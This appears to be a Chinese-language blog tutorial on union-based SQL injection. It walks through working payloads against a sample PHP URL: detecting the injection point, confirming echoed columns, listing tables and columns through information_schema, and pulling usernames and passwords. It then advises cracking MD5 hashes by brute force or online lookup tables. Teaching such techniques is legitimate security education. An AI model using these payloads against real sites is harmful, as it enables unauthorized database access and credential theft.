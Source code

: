 ```yaml
---
title: SQL注入(2)——联合查询注入篇
description: SQL注入是一种是一种常见的网络安全漏洞攻击手段。本文章简单介绍少了SQL注入的原理以及注入方式和应对措施。
pubDate: 07 30 2025
categories:
- 网络安全
tags:

- SQL注入
- Web安全
- Kaku
---
```


## 判断注入点

联合查询注入是回显注入的一种也就是说，联合注入的前提是页面要有回显，但在这之前我们必须先找到注入点，例如一个网址`http://abc.cn/new_list.php?id=1`，当我们在后面网址后面加上`and 1=1 或 and 1=2`来判断页面的回显情况，当发生变化时，我们就找到了注入点。

另外根据具体情况可能需要在加入单引号或注释符等信息。

- **--**该注释符后面要有一个空格。

- **\#**  对该行#后面的内容进行注释。

- **/\* \*/** 注释符号内的内容；# 对该行#后面的内容进行注释。

## 判断注入类型

注入类型分成数字型注入和字符型注入。

数字型注入的sql语句：

```sql
select * from users where id = 1
```

测试步骤：

1. 加单引号，这时sql语句后面多了一个单引号，后面加注释，会报错。

2. 加and 1=1，语句正常执行，页面与原始页面相同。

3. 加and 1=2，语句也可以正常执行，但页面会与原始网页存在差距。   　　

如满足以上三点，可以判断此处存在数字型注入：

字符型注入的sql语句：

```sql
select * from users where id = '1'
```

 同样加单引号，但后面要带上注释符来注释掉后面多余的单引号，具体还是拿sql语句直观看一下：

```sql
select * from users where id = '1' and 1=1 #'
```

我们在网址之中手工注入了***' and 1=1 #***，单引号的作用时用来闭合前一个单引号以便我们在后面继续加代码，#用来注释掉最后面多余的单引号。

## 判断是否回显

当我们找到注入点之后，就要用sql语句进行判断是否会回显了。还是之前的网址，我们在后面加入一些sql语句进行判断，原网址变为`http://abc.cn/new_list.php?id=2 union all select 1,2,3,4`。假设该注入为数字型注入，sql语句为：

```sql
select * from users where id = 2 union all select 1,2,3,4
```

这条语句就是使用联合查询来判断是否会回显，我将id=1改为id=2，是为了让原sql信息查询失败无数据返回，从而用我们union的语句来返回数据（注意`select 1,2,3,4`的具体查询列数要原sql查询列数相同），这个时候如果把 ***1，2，3，4*** 返回到页面中那就可以判断页面可以回显(具体页面查看是哪几列数据回显到页面的哪几个位置)，我们就可以开心的进行Union注入了，反之我们只能另寻他法。当然我们要具体情况具体分析。

## 根据库名确认表名

上面我们已经确定了原sql的列数和回显位置，就可以直接用sql去获取我们所需要的表的名字了。

假设第二列是回显位置，则具体sql为：

```url
 http://abc.cn/new_list.php?id=2 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database();
```

- group_concat()是Mysql中的一个聚合函数，具体作用是将多行数据合并为一个字符串，并用指定的分隔符连接起来。

- information_schema是一个信息数据库，保存关于MySQL服务器所维护的所有其他数据库的信息，如数据库或表的名称，列的数据类型或访问权限等。其中的schemata表、tables表和columns表是我们常用的表。

## 根据表名确定字段名

假设我们获取到的表名为***users***，则可以通过下面sql获取到字段名。

```url
http://abc.cn/new_list.php?id=2 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users' and table_schema=database();
```

## 根据字段名拿到数据

这个时候我们就可以通过表名和字段名拿到用户的账号和密码了。

```url
http://abc.cn/new_list.php?id=2 union select 1, name,passwd,4 from users
```

## 解密相关

一般用户的密码都是加密的，可能会用到各种算法进行加密，这里我们用MD5进行举例：假设密码加密后是一个标准的32位16进制数据（例如**CD7F6DD891930529F7564EF0E81248E1**），那就很有可能是MD5算法加密的，这个时候我们只能进行撞库（MD5是一个散列值算法无法进行解密），具体方法就是利用MD5算法将对我们穷举的密码进行加密，用加密后的密文与密码进行比较。当然更简单的办法是去网上寻找MD5明文密文对照表或者相关解密网站。
